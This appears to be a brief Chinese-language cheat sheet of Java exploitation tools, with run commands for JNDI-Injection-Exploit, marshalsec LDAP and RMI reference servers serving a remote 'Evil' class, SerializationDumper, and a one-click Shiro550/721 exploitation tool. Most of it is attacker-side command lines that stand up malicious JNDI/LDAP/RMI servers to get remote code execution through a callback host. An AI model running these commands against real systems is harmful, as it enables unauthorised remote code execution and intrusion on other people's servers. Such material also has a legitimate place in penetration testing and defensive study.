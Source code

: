 - JNDI-Injection-Exploit-1.0-SNAPSHOT-all
  搭建JNDI服务端
  `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "id" -A your_ip`

- marshalsec-0.0.3-SNAPSHOT-all
  搭建RMI/JNDI服务端

  ```java
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Evil 9999
  ```

  ```java
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8888/#Evil 9999
  ```
  
  
  
- SerializationDumper-v1.13.jar

  用于序列化字符串的分析

  ```java
  java -jar SerializationDumper-v1.13.jar hex........
  ```


- [shiroExploit利用工具](ShiroExploit.V2.51)

  [GitHub - feihong-cs/ShiroExploit-Deprecated: Shiro550/Shiro721 一键化利用工具，支持多种回显方式](https://github.com/feihong-cs/ShiroExploit-Deprecated)

  ```java
  // 需要java8的环境
  D:\java\JDK8\bin\java.exe -jar .\ShiroExploit.jar
  ```

  